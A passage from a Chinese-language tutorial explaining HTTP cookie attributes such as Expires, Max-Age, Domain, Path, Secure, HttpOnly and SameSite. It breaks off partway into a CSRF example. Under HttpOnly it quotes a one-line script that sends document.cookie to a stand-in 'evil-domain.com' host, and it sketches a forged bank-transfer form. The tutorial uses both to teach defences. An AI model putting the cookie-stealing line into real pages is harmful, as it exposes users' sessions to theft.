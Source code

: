     > 如果不设置该属性，或者设为`null`，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。
    >
    > `Max-Age`属性指定从现在开始 Cookie 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。
    >
    > 如果同时指定了`Expires`和`Max-Age`，那么`Max-Age`的值将优先生效。
    >
    > 如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。
    >
    > ### Domain，Path
    >
    > `Domain`属性指定 Cookie 属于哪个域名，以后浏览器向服务器发送 HTTP 请求时，通过这个属性判断是否要附带某个 Cookie。
    >
    > 服务器设定 Cookie 时，如果没有指定 Domain 属性，浏览器会默认将其设为浏览器的当前域名。如果当前域名是一个 IP 地址，则不得设置 Domain 属性。
    >
    > 如果指定 Domain 属性，需要遵守下面规则：Domain 属性只能是当前域名或者当前域名的上级域名，但设为上级域名时，不能设为顶级域名或公共域名。（顶级域名指的是 .com、.net 这样的域名，公共域名指的是开放给外部用户设置子域名的域名，比如 github.io。）如果不符合上面这条规则，浏览器会拒绝设置这个 Cookie。
    >
    > 举例来说，当前域名为`x.y.z.com`，那么 Domain 属性可以设为`x.y.z.com`，或者`y.z.com`，或者`z.com`，但不能设为`foo.x.y.z.com`，或者`another.domain.com`。
    >
    > 另一个例子是，当前域名为`wangdoc.github.io`，则 Domain 属性只能设为`wangdoc.github.io`，不能设为`github.io`，因为后者是一个公共域名。
    >
    > 浏览器发送 Cookie 时，Domain 属性必须与当前域名一致，或者是当前域名的上级域名（公共域名除外）。比如，Domain 属性是`y.z.com`，那么适用于`y.z.com`、`x.y.z.com`、`foo.x.y.z.com`等域名。再比如，Domain 属性是公共域名`github.io`，那么只适用于`github.io`这个域名本身，不适用于它的子域名`wangdoc.github.io`。
    >
    > `Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`Path`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是 Domain 属性必须符合条件。
    >
    > ### Secure，HttpOnly
    >
    > `Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。
    >
    > `HttpOnly`属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。
    >
    > ```
    > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
    > ```
    >
    > 上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。
    >
    > ### SameSite
    >
    > Chrome 51 开始，浏览器的 Cookie 新增加了一个`SameSite`属性，用来防止 CSRF 攻击和用户追踪。
    >
    > Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 Cookie。
    >
    > ```
    > Set-Cookie:id=a3fWa;
    > ```
    >
    > 用户后来又访问了恶意网站`malicious.com`，上面有一个表单。
    >
    > ```
    > <form action="your-bank.com/transfer" method="POST">
    >   ...
    > </form>
    > ```
    >